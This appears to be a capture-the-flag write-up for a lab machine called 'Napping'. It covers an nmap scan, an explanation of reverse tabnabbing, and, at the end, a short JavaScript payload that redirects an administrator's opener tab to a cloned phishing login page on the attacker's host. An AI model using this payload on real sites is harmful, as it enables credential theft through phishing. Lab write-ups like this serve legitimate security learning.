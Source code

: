 # Napping
nmap scan

```abap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Going to the website we have a login page. Below we can sign up and make a account so thats what I did. After that it took us to this page right here

<img width="1840" height="969" alt="Screenshot From 2025-09-10 16-13-04" src="https://github.com/user-attachments/assets/2b489d76-463b-40e9-8bb3-31994990481c" />


Reverse Tab nabbing is when an attacker can execute a code on a currently active tab to load a page by refreshing the inactive source inactive tab. The attacker can serve up a page specifically designed to collect PII from the victim, also known as phishing.

How does it work?

The attacker places a malicious link on a victim's website
The user clicks on the bad link on the victim's website and is taken to a new tab with a malicious script
The inactive tab is then refreshed and loads a cloned copy of the login page controlled by the attacker.
Users enter credentials and is redirected back to the real victim website
More information on how to execute reverse tab nabbing is available on OWASP and Hack Tricks. While most updated browsers do not allow a JavaScript tab nabbing, if an attacker can control an HREF argument in a <a> tag with attributes target=”_blank,” a malicious JavaScript be on the destination site that can control the source tab

In this scenario, Tab Nabbing can be used to hijack the system administrators tab when they review the submitted link. The hijacked tab will appear the user will need to sign back in using a cloned template.

<img width="1840" height="969" alt="Screenshot From 2025-09-10 21-24-32" src="https://github.com/user-attachments/assets/31e6323b-2628-4b34-aa01-b440c28928aa" />

https://book.hacktricks.wiki/en/pentesting-web/reverse-tab-nabbing.html

This can be simulated by creating a page with embedded JavaScript to execute when the website admin clicks on the link and opens the page in a new tab. The javascript code will hijack the tab and redirect it to the phishing login page on the attack book.

Make index.php

```abap
<!DOCTYPE html>
<html>
 <body>
  <script>
	  window.opener.location = "http://machine_ip:8000/login.html";
  </script>
 </body>
</html>
```

